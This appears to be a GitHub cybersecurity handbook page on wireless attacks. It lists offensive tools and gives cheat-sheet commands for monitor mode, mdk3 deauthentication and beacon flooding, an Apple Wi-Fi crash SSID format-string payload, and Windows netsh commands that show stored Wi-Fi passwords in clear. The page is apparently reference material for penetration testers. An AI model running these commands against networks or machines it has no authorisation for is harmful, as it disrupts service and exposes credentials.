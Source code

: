 # Wireless Attacks

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Resources)

## Table of Contents

- [airodump-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airodump-ng)
- [airmon-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airmon-ng)
- [Apple Wi-Fi Evil SSID](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Apple-Wi-Fi-Evil-SSID)
- [mdk3](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#mdk3)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```
